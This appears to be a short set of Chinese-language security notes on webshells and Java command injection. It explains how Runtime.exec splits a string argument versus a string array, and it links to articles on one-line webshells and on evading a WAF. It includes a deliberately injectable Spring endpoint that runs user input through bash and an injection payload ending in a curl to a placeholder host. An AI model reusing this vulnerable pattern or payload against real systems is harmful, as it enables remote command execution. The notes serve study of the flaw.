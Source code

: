 # shell

偶然发现了一篇文章
>https://xz.aliyun.com/t/7798


+ [一种新型Java一句话木马的实现](https://xz.aliyun.com/t/9715)

## 命令执行的tips

https://www.anquanke.com/post/id/243329

https://xz.aliyun.com/t/7046

https://mp.weixin.qq.com/s?__biz=Mzg5MjQ1OTkwMg==&mid=2247483860&idx=1&sn=436dbdf49846851da5480e9e0c26ac23&chksm=c03c8fc5f74b06d3d6a8dba8726d4b82d811254073bbc75f982bd59f705c1e750178eddd3fe7&mpshare=1&scene=23&srcid=01302ApMKF6H7h71gWVIbJDN&sharer_sharetime=1643510224916&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd

**其实说到底是java.lang.Runtime#exec(string)一个对命令进行了空格切分（导致切分不合本意），另一个string[]是自己去分离可以执行**

下面代码是可以执行的

/cmd?command=;curl http://ip:port

```java
@GetMapping(value = "/cmd")
public void cmd(@RequestParam String command) throws Exception {
    String[] c = { "/bin/bash","-c", "hacker "+ command };///bin/bash -c hacker;ls
    Process p = Runtime.getRuntime().exec(c);
}
```

下面是不能执行的
```java
Command = "ping 127.0.0.1"+request.getParameter("cmd");
Runtime.getRuntime().exec(command);
```
## webshell 管理工具

+ [菜刀HTTP流量中转代理过WAF](https://xz.aliyun.com/t/2739) **现在来说就是bx和gsl了**
